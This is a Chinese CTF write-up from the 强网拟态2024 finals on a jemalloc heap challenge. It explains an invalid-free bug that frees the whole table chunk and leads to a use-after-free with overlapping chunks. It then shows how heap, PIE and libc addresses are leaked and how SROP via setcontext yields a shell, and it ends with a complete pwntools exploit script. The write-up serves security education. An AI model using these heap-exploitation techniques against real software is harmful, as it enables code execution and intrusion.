# [强网拟态2024 final] Jemalloc heap: Every Fold Reveals A Side详解-先知社区

> **来源**: https://xz.aliyun.com/news/16113  
> **文章ID**: 16113

---

## 题目描述

本题创新点在于没有使用 glibc 默认的 `Ptmalloc`，而是使用了 `Jemalloc`，并利用了这种堆管理机制下的一项特性：假设存在 `chunk A`，大小为 size，`free (&chunk A)` 至 `(&chunk A+size)` 的任意一个地址，都会释放此 chunk  
  
文末提供附件，包含题目、exp 和逆好的 i64 文件

## 内存机制分析

本题最大的特色在于可以使用 `fold` 自由切换三种模式，也就是切换三种内存结构

在使用 `fold` 功能时，如果不存在对应的的 type，就会进行初始化，申请出所需的块，如果存在 type，就会只修改 type 号码和 memory 指针，使其指向对应的 table，提示模式已切换



只使用了 type1 时，内存结构图示如下



## 功能分析

### fold功能

需要输入三个数字决定要切换到的内存模式，对于关系如下

```
types={"type0":123,"type1":312,"type2":231}

```

如果不存在对应的的 type，就会进行初始化，申请出所需的块，如果存在 type，就会只修改 type 号码，提示模式已切换，详情在内存机制分析已介绍，不再赘述

### Edit Memo功能



可以编辑 `memo chunk`，如 `type=1` 时，会取出其 0x48 偏移处的指针，编辑其内容



### Show Memo功能



同上，使用 write 输出该部分内容

### Free Memo功能



同上，使用 free 释放该块

### do\_func功能



会取出属于自己的 type 的 fun 并调用。这里使用了函数指针，是较危险的写法，如果此处被篡改即可劫持控制流



### Free fun chunk功能

该程序最大的漏洞在这里，在 free 时并未使用解引用。即释放的不是 `p_fun_chunk`，而是 `&p_fun_chunk`，而在 `jemalloc` 中，由于不存在 chunk 头，free 一个 chunk 的任意部分都会导致整个 chunk 被释放



若使用该函数无法释放 `fun_chunk`，而会导致 `table chunk` 被释放



### Get Some Basic Info功能



可以查看 `table chunk` 的 info 元素



### Edit Basic Info功能



## 攻击链构造

先初始化 type0，利用 Free fun chunk 功能，导致其 table chunk 被释放

```
choose_direction("type0")
dele_game()

```

再初始化 type2，会将刚刚释放的 table chunk 的取出，由于这次 free 是意料之外的，所以 table1 也未置空，造成了 uaf。现在的 table0 和 2 是完全重叠的

```
choose_direction("type2")

```

切换到 type0 后，使用 show\_basic\_info 功能，程序判断当前处于模式0，但是 show 的块是 type2 的块，造成了堆地址泄露

```
choose_direction("type0")
show_basic_info()
p.recvuntil('fo:\n')
p.recv(8)
heap = u64(p.recv(8))
fake_chunk =heap-0x6ff0-0x18
leak_addr = fake_chunk+0x7018
success(hex(fake_chunk))

```

故技重施，初始化 type2 造成3块重叠，之后使用 `edit_basic_info`，在 type2 下修改了 type1 的 `memo` 指针，指向堆上的 fun\_chunk 的函数指针，泄露出 pie 基地址

```
dele_game()
choose_direction("type1")
choose_direction("type2")
edit_basic_info(b'b'*0x28+p64(0x100)+p64(leak_addr))
choose_direction("type1")
show_memo()
p.recvuntil('ent:\n')
elf.address =u64(p.recv(8))-0x15bd
success(hex(elf.address))

```

故技再施，在 type2 下修改了 type1 的 memo 指针，指向 got 表，泄露出 puts 的基地址，计算出 libc 基地址

```
choose_direction("type2")
edit_basic_info(b'b'*0x28+p64(0x100)+p64(elf.got['puts']))
choose_direction("type1")
show_memo()
p.recvuntil('ent:\n')
libc.address = u64(p.recv(8))-libc.symbols['puts']
rdi_ret = libc.address + 0x000000000010f75b
success(hex(libc.address))

```

故技再再施，继续使用任意地址写，在堆中写入一个 srop 结构体，再将 fun\_addr 的函数指针篡改到 `setcontext+61`，完成 srop，调用 `system(”/bin/sh”);` 完成攻击

有一个小细节是，本题的 libc 为 2.39，但我们直接进行了 `setcontext`，没有使用 `free_hook+magic hook`，这是因为 `do_fun` 类似于一个后门，已经偷偷将 rdx 设置为了 memory，不需要我们额外控制了



```
choose_direction("type2")
edit_basic_info(b'b'*0x28 + p64(0x100)+ p64(fake_chunk + 0x48))
choose_direction("type1")

edit_memo(p64(fake_chunk+0x48)+p64(0)*2+p64(fake_chunk+0x48+0x20-0x10)+p64(libc.symbols['setcontext']+61))
edit_memo(p64(fake_chunk+0xa0))
edit_memo(p64(fake_chunk+0xb0)+p64(rdi_ret)+p64(fake_chunk+0xb0+0x10)+p64(libc.symbols['system'])+b'/bin/sh\x00')
do_func()
p.interactive()

```

## exp

附带详细解析在 exp 中

```
from pwn import *
from std_pwn import *

p=getProcess("123",13,'./pwn')
context(os='linux', arch='amd64', log_level='debug',terminal=['tmux','splitw','-h'])
elf=ELF("./pwn")
libc=ELF("./libc.so.6")

types={"type0":123,"type1":312,"type2":231}
def choose_direction(type):
    sla("Enter your choice >","1")
    sla("Which direction?",str(types[type]))

def edit_memo(content):
    sla("Enter your choice >","2")
    sla("content > ",content)

def show_memo():
    sla("Enter your choice >","3")

def dele_memo():
    sla("Enter your choice >","4")

def do_func():
    sla("Enter your choice >","5")

def dele_game():
    sla("Enter your choice >","6")

def show_basic_info():
    sla("Enter your choice >","7")

def edit_basic_info(content):
    sla("Enter your choice >","8")
    sla("content > ",content)

#############################################
# malloc和free的逻辑：
# malloc：同大小的malloc到同一段，malloc出的块不存在size位
# free：不必free一个块的头，在该块范围内都行

#############################################
# 程序漏洞：使用game的时候没有置入子块，而是在母块操作，释放它会造成非法释放，以及泄露主块信息
# libc漏洞，传入这个块范围内的地址就能free，可以和之前的非法释放组合

#############################################
# 非法释放 type0 +0x18 ,使其进入自定义的bin，后被type2初始化时malloc出，作为type2的主块，造成type0和type2重叠
# 利用show_game泄露一个堆地址

choose_direction("type0")
dele_game()
choose_direction("type2")
choose_direction("type0")
show_basic_info()
p.recvuntil('fo:\n')
p.recv(8)
heap = u64(p.recv(8))
fake_chunk =heap-0x6ff0-0x18
leak_addr = fake_chunk+0x7018
success(hex(fake_chunk))
############################################
# 再次非法释放type0 +0x18，申请出type1的主块，造成三块重叠
# 切换到type2，可以篡改type1的memo指针，造成任意地址读，使用此方法读存有elf的fun的块，通过泄露fun得到pie基地址

dele_game()
choose_direction("type1")
choose_direction("type2")
edit_basic_info(b'b'*0x28+p64(0x100)+p64(leak_addr))
choose_direction("type1")
show_memo()
p.recvuntil('ent:\n')
elf.address =u64(p.recv(8))-0x15bd
success(hex(elf.address))
#############################################
# 再次篡改 type1的memo到got表，泄露出puts地址，计算libc基地址

choose_direction("type2")
edit_basic_info(b'b'*0x28+p64(0x100)+p64(elf.got['puts']))
choose_direction("type1")
show_memo()
p.recvuntil('ent:\n')
libc.address = u64(p.recv(8))-libc.symbols['puts']
rdi_ret = libc.address + 0x000000000010f75b
success(hex(libc.address))

#############################################
#再次篡改type1的memo到fake_chunk（在重叠的主块上，头8字节是type1的memo指针，所以可以连续更改实现铺设内存）

choose_direction("type2")
edit_basic_info(b'b'*0x28 + p64(0x100)+ p64(fake_chunk + 0x48))
choose_direction("type1")

edit_memo(p64(fake_chunk+0x48)+p64(0)*2+p64(fake_chunk+0x48+0x20-0x10)+p64(libc.symbols['setcontext']+61))
edit_memo(p64(fake_chunk+0xa0))
edit_memo(p64(fake_chunk+0xb0)+p64(rdi_ret)+p64(fake_chunk+0xb0+0x10)+p64(libc.symbols['system'])+b'/bin/sh\x00')
do_func()
p.interactive()

```
